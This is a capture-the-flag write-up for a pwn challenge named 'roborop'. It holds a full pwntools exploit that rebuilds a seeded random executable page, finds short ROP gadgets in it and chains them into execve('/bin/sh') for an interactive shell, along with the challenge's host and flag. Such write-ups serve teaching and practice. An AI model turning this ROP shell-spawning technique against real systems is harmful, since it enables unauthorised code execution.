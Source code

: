 # roborop

Categories: pwn

Description:
>Gr8 Autom8
> 
>author: quend
>
>[roborop.tar.gz](resources/roborop.tar.gz)

**Tags:** pwn, autopwn, rop chain

## Solution

The binary allocates `X=mmap(NULL, 0x10000000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS , -1, 0);` and fills it with random data. The binary gives us the seed, changes the permissions of `X` to `PROT_READ | PROT_EXEC`, and also gives us the address where the random data is stored (pointer `X`). Then, it reads our ROP chain on another page, clears all registers, and gives us control over PC.

We reproduce the random page locally since we know the seed and then search for specific ROP gadgets within the page. The trick here is to search for gadgets that are small in length, e.g. 2 or 3 bytes in length.

```python
from capstone import *
from pwn import *
import shlex
import subprocess

context.binary = elfexe = ELF('./roborop')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target

# Specify your gdb script here for debugging. gdb will be launched the GDB argument is given.
gdbscript = '''
set $BASE=0x555555554000
b *($BASE+0x1582)
command
    x/10gx $rsp
end
continue
'''.format(**locals())
if args.GDB:
    log.info('Using gdb script:\n'+gdbscript)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

arguments = []
if args['REMOTE']:
    remote_server = 'roborop-1.play.hfsc.tf'
    remote_port = 1993
    io = remote(remote_server, remote_port)
else:
    io = start(arguments)

io.recvuntil(b'seed: ')
seed = int(io.recvline().decode().strip(), 16)
print(f"seed= {hex(seed)}")
io.recvuntil(b'addr: ')
gadget_page = int(io.recvline().decode().strip(), 16)
print(f"gadget_page= {hex(gadget_page)}")

# TOO SLOW!!!
# libc = CDLL("./libc.so.6")
# libc.srand(seed)
# CODE = b''
# print("Simulating rand()")
# # for i in range(0x1000):
# for i in tqdm(range(0x4000000)):
#     r = libc.rand()
#     CODE += p32(r)

subprocess.check_call(shlex.split(
    f'gdb -q --nh -x ./dummy.gdbscript --args ./dummy {seed}'
))
with open('code', 'rb') as f:
    CODE = f.read()
print(hexdump(CODE[:0x100]))


def find_gadget(gadget: str):
    pos = CODE.find(asm(gadget))
    if pos == -1:
        print(f"Could not find gadget: {gadget}")
        print(f"gadget hex dump      : {asm(gadget).hex()}")
        return -1
    else:
        return p64(gadget_page + pos)

def assert_gadget(gadget: str):
    pos = find_gadget(gadget)
    if pos == -1:
        exit(1)
    return pos


# Payload will be a ROP chain to `execve("/bin/sh");`
# Works even when RSI is NULL
payload  = b''
payload += assert_gadget('push rsp; pop rdi; ret')

found=False
for i in range(0x20, 0x100, 8):
    res = find_gadget(f'mov bl, {hex(i)}; ret')
    if res != -1:
        payload += res
        print(f"offset: {hex(i)}")
        found=True
        break
if not found:
    print("not found")
    exit(1)
payload += assert_gadget('add rdi, rbx; ret;') # Most difficult gadget to find as it is 4 bytes

payload += assert_gadget('mov  al, 0x3b ; ret;')
payload += assert_gadget('syscall')
payload += b'A' * (i-0x20) # padding
payload += b'/bin/sh\x00'
payload += p64(0x00)

io.sendline(payload)

io.interactive()
io.close()

exit(0)
```

And we get the flag!

`midnight{spR4Y_aNd_pR4Y}`

